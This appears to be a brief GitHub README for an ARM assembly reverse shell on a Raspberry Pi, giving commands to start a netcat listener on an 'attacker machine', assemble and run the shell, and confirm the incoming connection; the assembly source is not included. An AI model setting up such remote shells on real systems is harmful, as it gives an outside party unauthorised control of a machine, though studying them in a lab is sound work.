



# Reverse Shell — README

## Build Instructions

### Step 1: Start the listener on the attacker machine

```bash
nc -lvp 4444
```


### Step 2: Run the reverse shell on the Pi

```bash
pi@raspberrypi:~/reverseshell $ as reverse_shell.s -o reverse_shell.o && ld -N reverse_shell.o -o reverse_shell
pi@raspberrypi:~/reverseshell $ ./reverse_shell
```


### Step 3: Check the listener — it should print 

Connection from x.x.x.x port XXXXX [tcp/*] accepted

